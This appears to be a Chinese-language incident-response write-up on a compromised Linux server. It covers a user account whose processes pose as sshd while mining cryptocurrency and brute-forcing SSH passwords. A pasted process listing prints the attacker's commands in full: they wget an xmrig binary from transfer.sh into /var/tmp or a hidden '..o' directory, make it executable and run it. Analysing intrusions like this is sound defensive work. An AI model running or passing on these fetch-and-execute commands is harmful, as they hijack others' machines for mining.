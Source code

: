 查看 `lpz`用户启动的程序

```
lpz       9845     1  0 5月16 ?       00:00:00 /usr/sbin/sshd f bios.txt passretea 22 cd /var/tmp ; rm -rf xmrig ; wget http://transfer.sh/zA1eg/xmrig ; chmod +x xmrig ; ./xmrig
lpz      10361     1  0 16:00 ?        00:00:00 /usr/sbin/sshd f bios.txt passretea 22 cd /var/tmp ; cd ..o ; ./xmrig
lpz      10628     1  0 16:00 ?        00:00:00 /usr/sbin/sshd f bios.txt passretea 22 cd /var/tmp ; cd ..o ; ./xmrig
lpz      11418     1  0 5月16 ?       00:00:00 /usr/sbin/sshd f bios.txt passretea 22 cd /var/tmp ; rm -rf xmrig ; wget http://transfer.sh/zA1eg/xmrig ; chmod +x xmrig ; ./xmrig
lpz      12349     1  0 5月16 ?       00:00:00 /usr/sbin/sshd f bios.txt passretea 22 cd /var/tmp ; rm -rf xmrig ; wget http://transfer.sh/zA1eg/xmrig ; chmod +x xmrig ; ./xmrig
lpz      13160     1  0 5月15 ?       00:00:00 /usr/sbin/sshd f bios.txt passretea 22 cd /var/tmp ; rm -rf ..o ; mkdir ..o ; cd ..o ; wget http://transfer.sh/GgVQs/xmrig ; chmod +x xmrig ; ./xmrig
lpz      13462     1  0 16:10 ?        00:00:00 /usr/sbin/sshd f bios.txt passretea 22 cd /var/tmp ; cd ..o ; ./xmrig
lpz      13633     1  0 5月16 ?       00:00:00 /usr/sbin/sshd f bios.txt passretea 22 cd /var/tmp ; rm -rf xmrig ; wget http://transfer.sh/zA1eg/xmrig ; chmod +x xmrig ; ./xmrig

```



![image-20210517172830380](https://static.scuseek.com/image-20210517172830380.png)

找到  bios.txt

![image-20210517173105061](https://static.scuseek.com/image-20210517173105061.png)

内容如下

![image-20210517173037790](https://static.scuseek.com/image-20210517173037790.png)

查看建立的ssh,发现正在爆破口令

![](https://static.scuseek.com/20210518144217.png)


停止该用户的所有对外发起的爆破攻击

![image-20210517183217689](https://static.scuseek.com/image-20210517183217689.png)

祭出很久以前写的一个非常弱鸡的检查程序

![](https://static.scuseek.com/20210518135310.png)



查看成功登录的记录，记录文件缺失不少，可能是攻击者手抖删了的

![image-20210517183738389](https://static.scuseek.com/image-20210517183738389.png)

目录里面翻了翻，找到了爆破成功的口令

![](https://static.scuseek.com/20210518135528.png)
